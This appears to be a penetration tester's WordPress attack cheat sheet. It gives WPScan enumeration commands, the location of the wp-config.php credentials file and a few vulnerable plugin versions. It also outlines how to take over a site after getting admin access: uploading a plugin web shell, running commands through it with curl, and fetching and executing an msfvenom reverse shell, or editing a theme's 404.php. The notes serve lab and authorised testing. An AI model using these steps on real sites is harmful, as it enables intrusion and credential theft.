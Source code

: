 - When encounter any app, other than searchsploit, do a 

  - `<app name> github exploit`
  - `hacktricks <app name>`
  - `<app name> exploit cve`



**WordPress**

```shell
WPScan
wpscan --url sandbox.local --enumerate ap,at,cb,dbe

wpscan --url http://192.168.241.244 --enumerate p --plugins-detection aggressive -o websrv1/wpscan
```

```
linPEAS.sh
	- Analyzing Wordpress Files
	OR
	- check wp-config.php file
		/var/www/html/wp-config.php
```

- Plugin with known vuln

  ```
  wp-survey-and-poll 1.5.7.3
  Duplicator 1.3.26
  ```
  
  
  
- common directory

  ```
  /wordpress/wp-admin
  /wp-admin
  /wp-content
  /wp-includes
  ```
  
  

After getting admin access https://www.hackingarticles.in/wordpress-reverse-shell/

```
Tools -> SiteHealth 		# Read Wordpress Version & other info

Plugins
	/usr/share/seclists/Web-Shells/WordPress/plugin-shell.pip
	sudo zip plugin-shell.zip plugin-shell.php
	### upload new plugins -> install it
	curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
	### msfvenom generate reverse sehll
	### use cmd to download it, chmod and execute
	
	
appearance -> edit template -> modify 404.php
	trigger it by access 
		http://192.168.1.101/wordpress/wp-content/themes/twentyfifteen/404.php
```
